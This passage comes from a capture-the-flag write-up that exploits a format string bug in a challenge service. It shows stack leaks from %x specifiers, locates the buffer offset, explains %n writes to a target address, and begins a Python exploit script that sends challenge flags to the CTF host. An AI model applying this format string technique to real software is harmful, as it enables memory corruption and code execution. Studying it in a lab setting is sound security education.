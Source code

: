 
```bash
> echo "BBBBBBBBBB 2: %x  3: %x  4: %x  5: %x  6: %x  7: %x  8: %x  9: %x  10: %x  11: %x  12: %x  13: %x  14: %x  15: %x  16: %x  17: %x  18: %x  19: %x  20: %x  21: %x  22: %x  23: %x  24: %x  25: %x  26: %x  27: %x  28: %x  29: %x  30: %x  31: %x  32: %x  33: %x  34: %x  35: %x  36: %x  37: %x  38: %x  39: %x  40: %x  41: %x  42: %x  43: %x  44: %x  45: %x  46: %x  47: %x  48: %x  49: %x  50: %x "
"BBBBBBBBBB 2: 41414ac3  3: 4  4: 3  5: 4fde1740  6: 2  7: 0  8: 0  9: 0  10: 0  11: 0  12: 0  13: 0  14: 0  15: 0  16: 0  17: 0  18: 0  19: 74464f73  20: 26c5007d  21: 0  22: 0  23: 0  24: 0  25: 0  26: 4efd0bff  27: 4f31d620  28: 1  29: 4f31d6a3  30: 26c5dde0  31: 0  32: 4efd2409  33: d  34: 4f31d620  35: a  36: 41414b86  37: 26c5dde0  38: 4efd281b  39: 6f686365  40: 42424242  41: 203a3220  42: 25203a33  43: 7825203a  44: 20782520  45: 20207825  46: 38202078  47: 3a392020  48: 3a303120  49: 3a313120  50: 3a323120 "
```

We can see that at parameter 40, we have our overwrite of B's in memory. If we print the contents of the address around that area using the format string command below, we can identify that in our echo command, we will be overwriting what comes after our first character ("B") with "DEFG...." in our command. This is indicated by the hex values: "4b4a494847464544".

```bash
> "echo B%40$llxABCDEFGHIJKL"
"B4b4a494847464544ABCDEFGHIJKL"
```

Here is a breakdown of how our format string works (see <a href="https://en.wikipedia.org/wiki/Printf_format_string" target="_blank">wikipedia</a>):
```
B%40$llxABCDEFGHIJKL

"B" = one byte which we only need for when we use %n (see %n)
"%" = format string prefix needed for "llx" (see llx)
"40$ = parameter number in printf to display
"ll" = causes the length field in printf to expect a long long int
"x" = specifies type as hexadecimal number
"ABCDEFGHIJKL" = used indicate the exact boundaries of the overwrite in our echo command
                 we need to replace this with the address we want to write to


"%n" = writes the number of characters successfully written so far into an integer pointer parameter 
```

Later, we will be replacing the "x" in our <code>echo</code> string with "n" so we can write a number to <b>0x41616138</b>. At this point, we can check to see if we are writing the correct address in the correct location with the following python script adapted from:
<a href="https://github.com/gynvael/stream-en/blob/master/025-blind-rop/prestream_version/pwnbase.py" target="_blank">https://github.com/gynvael/stream-en/blob/master/025-blind-rop/prestream_version/pwnbase.py</a>

<b>exploit.py</b>
```py
#!/usr/bin/python

import socket
import telnetlib
import struct

HOST = "mngmnt-iface.ctfcompetition.com"
PORT = 1337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))


s.sendall("1\n")
s.sendall("CTF{I_luv_buggy_sOFtware}\n")
s.sendall("CTF{Two_PasSworDz_Better_th4n_1_k?}\n")
```